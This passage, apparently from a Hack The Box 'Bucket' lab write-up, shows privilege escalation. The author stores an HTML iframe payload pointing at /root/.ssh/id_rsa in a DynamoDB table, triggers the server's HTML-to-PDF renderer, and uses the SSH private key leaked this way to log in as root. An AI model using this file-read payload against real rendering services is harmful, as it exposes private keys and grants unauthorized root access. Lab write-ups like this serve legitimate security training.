 Once we have been able to make the request work, the second step is finding a way to get sensitive data into the PDF file.

The easiest way would be to import `/root/root.txt`, but this doesn't give us an interactive shell in the box. Just like we did in [**Passage**]({% post_url 2021-03-06-htb-passage %}), we can look for the file `/root/.ssh/id_rsa` and use it to SSH into the machine as root but our issue right now is to find a way to import this file in the static HTML file that will later be rendered into the PDF.

After some research, the easiest way without using a Javascript to make this possible would be using an **iframe**, which I've added the tag `<iframe src="/root/.ssh/id_rsa" seamless></iframe>` in the HTML content sent earlier:

```bash
aws dynamodb create-table \
    --table-name alerts \
    --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S \
    --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE \
    --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=10 \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
aws dynamodb put-item \
    --table-name alerts \
    --item '{"title": {"S": "Ransomware"},"data": {"S": "<html><head><title>Title</title></head><body><h1>Head 1</h1><iframe src=\"/root/.ssh/id_rsa\" seamless></iframe></body></html>"}}' \
    --return-consumed-capacity TOTAL \
    --endpoint-url http://s3.bucket.htb \
    --profile bucket.htb && \
curl --data "action=get_alerts" http://localhost:8000/    
```

After running it, was able to download the file at `/var/www/bucket-app/files/result.pdf` and, with the contents inside it, created the file `id_rsa`, which was used to authenticate to SSH to the box as `root`, being able to read the root.txt file.

```bash
root@bucket:~# id
uid=0(root) gid=0(root) groups=0(root)
root@bucket:~# cat /root/root.txt
<redacted>
```

I hope you guys have enjoyed this post.

See you again soon! :smiley:
